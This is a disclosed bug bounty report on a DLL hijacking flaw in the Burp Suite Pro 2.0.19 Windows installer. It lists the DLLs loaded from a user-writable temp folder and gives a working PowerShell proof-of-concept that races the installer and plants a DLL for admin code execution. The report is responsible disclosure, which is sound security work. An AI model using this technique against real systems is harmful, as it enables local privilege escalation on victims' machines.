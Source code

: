 # DLL Hijacking in Burp Suite Pro 2.0.19 Installer

## Report Details
- **Report ID**: 518837
- **URL**: https://hackerone.com/reports/518837
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-03-29T18:35:16.531Z
- **Disclosed**: 2019-04-01T09:37:11.444Z

## Reporter
- **Username**: freetom
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: portswigger

## Vulnerability Information
I've found that the latest installer of Burp Suite Pro tries to load some DLLs from an unprotected folder. After providing it with admin privileges (required to install) it tries to load these DLLs:

```
C:\Users\bortto\AppData\Local\Temp\e4jA5E5.tmp_dir1553882416\jre\bin\WINMM.dll
C:\Users\bortto\AppData\Local\Temp\e4jA5E5.tmp_dir1553882416\jre\bin\WSOCK32.dll
C:\Users\bortto\AppData\Local\Temp\e4jA5E5.tmp_dir1553882416\jre\bin\VERSION.dll
C:\Users\bortto\AppData\Local\Temp\e4jA5E5.tmp_dir1553882416\jre\bin\WINMMBASE.dll
C:\Users\bortto\AppData\Local\Temp\e4jA5E5.tmp_dir1553882416\jre\bin\DBGHELP.DLL
C:\Users\bortto\AppData\Local\Temp\e4jA5E5.tmp_dir1553882416\jre\bin\dbgcore.DLL
C:\Users\bortto\AppData\Local\Temp\e4jA5E5.tmp_dir1553882416\jre\lib\libjava.base-coop.dll
C:\Users\bortto\AppData\Local\Temp\e4jA5E5.tmp_dir1553882416\jre\lib\libjava.logging-coop.dll
C:\Users\bortto\AppData\Local\Temp\e4jA5E5.tmp_dir1553882416\jre\lib\libjdk.compiler-coop.dll
C:\Users\bortto\AppData\Local\Temp\e4jA5E5.tmp_dir1553882416\jre\lib\libjdk.scripting.nashorn-coop.dll
C:\Users\bortto\AppData\Local\Temp\e4jA5E5.tmp_dir1553882416\jre\lib\libjdk.internal.vm.ci-coop.dll
C:\Users\bortto\AppData\Local\Temp\e4jA5E5.tmp_dir1553882416\jre\lib\libjdk.internal.vm.compiler-coop.dll
C:\Users\bortto\AppData\Local\Temp\e4jA5E5.tmp_dir1553882416\jre\bin\WINHTTP.dll
C:\Users\bortto\AppData\Local\Temp\e4jA5E5.tmp_dir1553882416\jre\bin\urlmon.dll
C:\Users\bortto\AppData\Local\Temp\e4jA5E5.tmp_dir1553882416\jre\bin\iertutil.dll
C:\Users\bortto\AppData\Local\Temp\e4jA5E5.tmp_dir1553882416\jre\bin\CRYPTBASE.DLL
```

`e4jA5E5.tmp_dir1553882416` is a temporary folder that is created just in time by the installer but its ACL doesn't protect it from modifications by the current user. The folder is dynamically created, though there is a time window in which a local attacker (that has a program running as the current user but looks for escalating privileges for persistence, etc.) can find the folder and inject a DLL and get code execution as admin.

I created the following script to exploit the issue:

```
$output = ""
while(!$output){
        Start-Sleep -milliseconds 10
        $output = Get-process | where {$_.ProcessName -like 'burpsuite_pro_windows-x64*'}
}
Start-Sleep -milliseconds 1000
$f = (Get-ChildItem -Filter "*tmp_dir*" C:\Users\bortto\AppData\Local\Temp\ | ?{ $_.PSIsContainer } | Sort CreationTime -Descending | Select -First 1).Name.trim()

Write-Host "$f"

Copy-Item -Path "C:\users\bortto\Downloads\Project1.dll" -Destination "C:\Users\bortto\AppData\Local\Temp\$f\jre\bin\DBGHELP.dll"
```

I attach `Project1.dll` (is just a DLL that upon loading pops a message box with the current user). I compiled it myself.

I also attach a video that shows the PoC running successfully (note: the few seconds of black screen are due to Windows UAC popup). I tested the video and is viewable with Windows Media Player.

## Impact

Local Privilege Escalation

## Attachments
- Project1.dll
- privesc_burp.mp4
